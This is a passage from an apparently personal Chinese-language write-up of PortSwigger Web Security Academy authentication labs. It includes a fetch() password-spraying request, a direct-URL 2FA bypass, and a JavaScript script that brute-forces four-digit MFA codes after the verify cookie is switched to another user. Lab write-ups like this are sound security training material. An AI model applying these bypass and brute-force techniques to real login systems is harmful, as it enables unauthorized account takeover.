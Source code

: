 ```js
fetch(
  "https://0a20008604f3a7bf80c0ada400a50066.web-security-academy.net/login",
  {
    headers: {
      "content-type": "application/json",
    },
    body: JSON.stringify({
      username: "carlos",
      password: passwords,
    }),
    method: "POST",
    mode: "cors",
    credentials: "include",
  },
);
```

結果就神奇的通關了，是說真的會有後端這樣設計登入流程嗎...

## Lab: 2FA simple bypass

| Dimension | Description                                                                                          |
| --------- | ---------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/authentication/multi-factor#bypassing-two-factor-authentication |
| Lab       | https://portswigger.net/web-security/authentication/multi-factor/lab-2fa-simple-bypass               |

先用 `carlos:montoya` 登入

之後直接進入 https://0a9000cc0485827580ab9e100042008e.web-security-academy.net/my-account?id=carlos 就成功 Bypass

## Lab: 2FA broken logic

| Dimension | Description                                                                                           |
| --------- | ----------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/authentication/multi-factor#flawed-two-factor-verification-logic |
| Lab       | https://portswigger.net/web-security/authentication/multi-factor/lab-2fa-broken-logic                 |

在 `/login2` 可以發現 `Cookie: verify=wiener`，嘗試將 `wiener` 改成 `carlos`，並且重整頁面，確保有重新發送 4-digit security code

之後就可以開始暴力破解

```js
const codes = Array(10000)
  .fill(0)
  .map((zero, idx) => String(idx).padStart(4, "0"));

function login(code) {
  return fetch(
    "https://0ada00380311b61280cc0822004d00f6.web-security-academy.net/login2",
    {
      headers: {
        "content-type": "application/x-www-form-urlencoded",
      },
      body: `mfa-code=${code}`,
      method: "POST",
      mode: "cors",
      credentials: "include",
    },
  );
}

```
